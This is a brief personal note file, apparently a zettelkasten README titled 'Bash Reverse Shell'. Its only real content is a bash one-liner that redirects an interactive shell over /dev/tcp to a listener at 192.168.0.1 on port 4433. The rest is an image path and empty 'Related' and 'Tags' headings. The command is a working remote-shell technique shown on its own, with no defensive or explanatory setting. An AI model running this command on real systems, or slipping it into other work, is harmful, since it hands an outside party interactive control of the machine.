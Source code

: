 # Bash Reverse Shell
```
/bin/bash -i >& /dev/tcp/192.168.0.1/4433 0>&1
```

` zet/20221003150563/README.md `

# Related


Tags:

    
